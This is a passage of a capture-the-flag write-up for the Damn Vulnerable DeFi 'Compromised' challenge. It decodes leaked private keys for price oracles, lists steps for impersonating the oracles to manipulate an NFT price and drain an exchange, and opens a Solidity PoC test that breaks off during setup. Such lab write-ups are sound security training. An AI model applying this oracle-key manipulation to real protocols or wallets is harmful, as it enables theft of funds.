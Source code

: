 Since text is commonly encoded using Base64 in web applications, we first attempted to decode these Base64 strings into UTF-8 text, we reveal the following:

```
0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744
0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159
```

These hex strings appear to be private keys. By converting these hex strings to addresses:

```
0x188Ea627E3531Db590e6f1D71ED83628d1933088
0xA417D473c40a4d42BAd35f147c21eEa7973539D8
```

We can confirm that they correspond to two of the oracles. Exploiting these addresses allows us to manipulate the NFT price.

### Attack steps:

1. Retrieve the private keys of the trusted oracles from the hint.
2. Impersonate the oracles to set the NFT price to a very low value (1 wei) and purchase it.
3. Impersonate the oracles again to set the NFT price to a high value (e.g., 999 ETH) and sell it.
4. Restore the original oracle prices.
5. Transfer the rescued ETH from the exchange to the `recovery` address.

## PoC test case

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {Test, console} from "forge-std/Test.sol";
import {VmSafe} from "forge-std/Vm.sol";

import {TrustfulOracle} from "../../src/compromised/TrustfulOracle.sol";
import {TrustfulOracleInitializer} from "../../src/compromised/TrustfulOracleInitializer.sol";
import {Exchange} from "../../src/compromised/Exchange.sol";
import {DamnValuableNFT} from "../../src/DamnValuableNFT.sol";

contract CompromisedChallenge is Test {
    address deployer = makeAddr("deployer");
    address player = makeAddr("player");
    address recovery = makeAddr("recovery");

    uint256 constant EXCHANGE_INITIAL_ETH_BALANCE = 999 ether;
    uint256 constant INITIAL_NFT_PRICE = 999 ether;
    uint256 constant PLAYER_INITIAL_ETH_BALANCE = 0.1 ether;
    uint256 constant TRUSTED_SOURCE_INITIAL_ETH_BALANCE = 2 ether;

    address[] sources = [
        0x188Ea627E3531Db590e6f1D71ED83628d1933088,
        0xA417D473c40a4d42BAd35f147c21eEa7973539D8,
        0xab3600bF153A316dE44827e2473056d56B774a40
    ];
    string[] symbols = ["DVNFT", "DVNFT", "DVNFT"];
    uint256[] prices = [INITIAL_NFT_PRICE, INITIAL_NFT_PRICE, INITIAL_NFT_PRICE];

    TrustfulOracle oracle;
    Exchange exchange;
    DamnValuableNFT nft;

    modifier checkSolved() {
        _;
        _isSolved();
```